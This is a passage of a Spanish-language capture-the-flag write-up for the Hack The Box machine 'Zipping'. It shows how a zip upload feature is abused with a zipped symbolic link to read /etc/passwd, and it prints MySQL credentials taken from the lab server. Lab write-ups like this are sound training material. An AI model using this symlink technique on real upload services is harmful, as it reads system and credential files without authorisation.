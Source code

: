 De primeras tenemos una especie de tienda de relojes.

![](@assets/HackTheBox/Zipping/index.png)

A simple vista tenemos dos funcionalidades interesantes:

- **http://10.10.11.229/shop/** aquí está la tienda. Probando parametros vulnerables a inyección SQL no encuentro nada en un principio, así que paso a la siguiente.

## Subida de archivos

- **http://10.10.11.229/upload.php** aquí tenemos una subida de archivos donde se realizan dos validaciones:

1. Que el archivo sea un `.zip`
2. Que el `.zip` contenga un `.pdf`

Cuando subimos un archivo que cumpla las condiciones, encontramos el archivo en la siguiente ruta:

`http://10.10.11.229/uploads/c5b0c19bcc16a92df48f4b223b4db8c5/test.pdf`

Donde la cadena tras el `/uploads/` es el md5sum del archivo `test.zip` y `test.pdf` el contenido del `.zip`. El archivo se borra tras cierto tiempo.

```bash
❯ md5sum test.zip
c5b0c19bcc16a92df48f4b223b4db8c5  test.zip
```

De primeras se me ocurre buscar vulnerabilidades en subidas de archivos `.zip`.

### Local file inclusion zipeando un link simbólico

Probando las diferentes vías de explotar la subida de archivos encuentro que puedo crear un link simbólico, comprimirlo y subirlo. El servidor al descomprimirlo apuntará a donde apuntó mi link:

```bash
ln -s /etc/passwd exploit.pdf
zip --symlinks exploit.zip exploit.pdf
```

En el navegador no se verá el contenido así que interceptamos la petición con BurpSuite.

![](@assets/HackTheBox/Zipping/etcpasswd.png)

Probé muchas vías pero no logré escalar este LFI.

Lo único interesante que saco es que existe un usuario **rektsu** y unas credenciales para una base de datos mysql (a la que no podemos acceder por que no está expuesta) en el archivo `/var/www/html/shop/functions.php`:

```php
<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
        return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
        // If there is an error with the connection, stop the script and display the error.
        exit('Failed to connect to database!');
    }
...
```
